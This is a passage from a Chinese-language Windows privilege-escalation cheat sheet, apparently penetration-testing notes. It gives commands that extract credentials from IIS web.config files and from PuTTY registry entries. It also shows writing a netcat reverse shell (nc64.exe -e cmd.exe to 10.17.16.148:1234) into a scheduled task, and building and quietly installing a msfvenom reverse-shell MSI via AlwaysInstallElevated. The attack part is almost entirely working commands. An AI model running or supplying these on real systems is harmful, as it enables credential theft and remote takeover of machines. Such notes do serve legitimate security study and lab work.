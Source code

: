 ```powershell
# IIS配置文件
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

# 搜索凭证
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

```
PuTTY是Windows系统上常见的SSH客户端。用户不必每次都指定连接的参数，而是可以将会话存储在IP、用户和其他配置可以存储的地方，以供以后使用。虽然PuTTY不允许用户存储他们的SSH密码，但它会存储包括明文身份验证凭据的代理配置。

要检索存储的代理凭证，您可以使用以下命令在以下注册表项下搜索ProxyPassword:
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

注意:Simon Tatham是PuTTY的创建者(他的名字是路径的一部分)，而不是我们正在检索密码的用户名。运行上述命令后，存储的代理用户名也应该是可见的。

就像putty存储凭据一样，任何存储密码的软件，包括浏览器、电子邮件客户端、FTP客户端、SSH客户端、VNC软件等，都有恢复用户保存的任何密码的方法。
```



##### 定时任务

```powershell
# 查询定时任务
schtasks /query
# 查看权限
icacls
# 写入
echo c:\tools\nc64.exe -e cmd.exe  10.17.16.148  1234 > C:\tasks\schtask.bat
```



##### 恶意msi安装程序

前置条件

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

msf生成恶意msi

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.63.3 LPORT=LOCAL_PORT -f msi -o malicious.msi
```

受害机执行

```shell
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

或者使用exploit/windows/local/always_install_elevated模块
